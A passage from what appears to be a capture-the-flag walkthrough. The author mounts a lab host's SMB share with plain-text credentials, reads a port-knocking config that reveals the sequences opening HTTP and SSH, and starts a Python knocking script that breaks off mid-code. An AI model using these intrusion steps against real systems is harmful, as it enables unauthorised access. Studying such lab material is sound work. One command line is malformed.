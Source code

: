 For convenience I will mount the shared resource to the attacking machine as shown in the following instructions: 

``` bash
root@kali:~$ /mnt/smb
root@kali:~$ mount -t cifs //192.168.179.132/qiu  /mnt/smb -o username=qiu,password=password,rw 
root@kali:~$ cd /mnt/smb 
```
I found in the following path a file with system configurations, including the knocking daemon configuration, as we can see in the following output the port sequence that we have to try to connect to open ports 80 and 22.

``` bash
root@kali:/mnt/smb$ cat .private/opensesame/config       
Here are settings for your perusal.                         
                                                                     
Port Knocking Daemon Configuration                                
                                                                         
[options]                                                            
        UseSyslog                                                  
                                                                    
[openHTTP]                                                               
        sequence    = 159,27391,4                                  
        seq_timeout = 100                                                 
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 80 -j ACCEPT
        tcpflags    = syn                                                    
                                                                               
[closeHTTP]                                                                 
        sequence    = 4,27391,159                                             
        seq_timeout = 100                                                       
        command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 80 -j ACCEPT
        tcpflags    = syn                                                    
                                                                           
[openSSH]                                                                    
        sequence    = 17301,28504,9999                                    
        seq_timeout = 100                                                    
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn                                                  
                                                                              
[closeSSH]                                                                   
        sequence    = 9999,28504,17301                                        
        seq_timeout = 100                                                    
        command     = /sbin/iptables -D iNPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn 
...
```

I developed a small port knocking script in python, as shown below:

```python
#!/usr/bin/env python3

import socket,sys

if len(sys.argv) != 5:
    print(f"Usage: {sys.argv[0]} [Ip] [Port1 Port2 Port3]")
    sys.exit(0)

def connection(ip,port):
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((ip,port))
    except:
        pass

ip=sys.argv[1]
```